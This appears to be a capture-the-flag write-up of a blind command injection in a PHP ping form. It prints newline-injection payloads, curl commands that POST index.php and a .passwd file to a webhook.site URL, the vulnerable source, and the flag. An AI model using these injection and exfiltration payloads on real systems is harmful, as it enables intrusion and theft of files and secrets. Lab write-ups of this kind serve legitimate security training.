



When sending the message, we only get `Ping OK` or `Syntax Error`. 
I looked here [command injection PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/Command%20Injection/), and tried the newline technique.

This is the payload:
```
127.0.0.1;
sleep 5
```


Okay, so let's try exfiltrate the data, will try `curl` to our webhook: (you should use burp and url-encode the payload)
```
127.0.0.1;
curl "https://webhook.site/ccb9efbb-f3f5-4b75-b031-7bca5b6cf22b/";
```


Now, let's give the file content as payload for `POST` request:
```
127.0.0.1;
curl -d @index.php "https://webhook.site/ccb9efbb-f3f5-4b75-b031-7bca5b6cf22b/";
```


This is what we get:
```php
<html><head><title>Ping Service</title></head><body><form method="POST" action="index.php">        <input type="text" name="ip" placeholder="127.0.0.1">        <input type="submit"></form><pre><?php $flag = "".file_get_contents(".passwd")."";if(isset($_POST["ip"]) && !empty($_POST["ip"])){        $ip = @preg_replace("/[\\\$|`;&<>]/", "", $_POST["ip"]);	//$ip = @str_replace(['\\', '$', '|', '`', ';', '&', '<', '>'], "", $_POST["ip"]);        $response = @shell_exec("timeout 5 bash -c 'ping -c 3 ".$ip."'");        $receive = @preg_match("/3 packets transmitted, (.*) received/s",$response,$out);        if ($out[1]=="3")         {                echo "Ping OK";        }        elseif ($out[1]=="0")        {                echo "Ping NOK";        }        else        {                echo "Syntax Error";        }}?></pre></body></html>
```

Inside this we can see this line:
```php
$flag = "".file_get_contents(".passwd")."";
```

So, let's get this file content:
```
127.0.0.1;
curl -d @.passwd "https://webhook.site/ccb9efbb-f3f5-4b75-b031-7bca5b6cf22b/";
```


**Flag:** ***`c4K04dtIaJsuWdi`***
